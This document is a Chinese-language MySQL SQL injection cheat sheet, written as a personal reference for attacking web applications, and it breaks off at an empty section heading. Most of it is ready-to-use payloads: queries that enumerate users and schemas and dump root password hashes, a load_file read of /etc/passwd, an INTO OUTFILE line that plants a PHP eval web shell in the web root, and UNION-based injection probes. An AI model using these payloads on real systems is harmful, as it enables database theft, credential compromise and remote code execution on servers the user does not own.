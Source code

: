 SQL备忘录，平时查阅用，随时更新。

# 1 MySQL

## 1.1 常用信息及语句

当前用户：user() 
数据库版本：version() 
数据库名: database() 
操作系统：@@version_compile_os

所有用户： 
`select group_concat(user) from mysql.user`

用户hash： 
`select group_concat(password) from mysql.user where user='root'`

所有数据库： 
`SELECT group_concat(schema_name) from information_schema.schemata`

表名： 
`SELECT group_concat(table_name) from information_schema.tables where table_schema='库名'`

//表中有主码约束，非空约束等完整性约束条件的才能用这个语句查询出来
`SELECT group_concat(table_name) from information_schema.table_constraints where table_schema='库名'`

字段名： 
`SELECT group_concat(column_name) from information_schema.columns where table_name='表名'`

读文件： 
`SELECT load_file('/etc/passwd')`

写文件： 
`SELECT <?php @eval($_POST[1]);?> into outfile '/var/www/html/shell.php'`

## 1.2 UNION注入

### 1.2.1 猜字段长度

```
order by num` 
Example：`id=1 order by 2` 页面正常，`id=3 order by 6`页面错误，那么字段就是2 
字符型的话需要注释后面的引号，Example： 
`id=1' order by 2%23
```

### 1.2.2 暴字段位置

```
and 1=2 UNION SELECT 1,2`或 `id=-1 UNION SELECT 1,2
```

### 1.2.3 基本语法
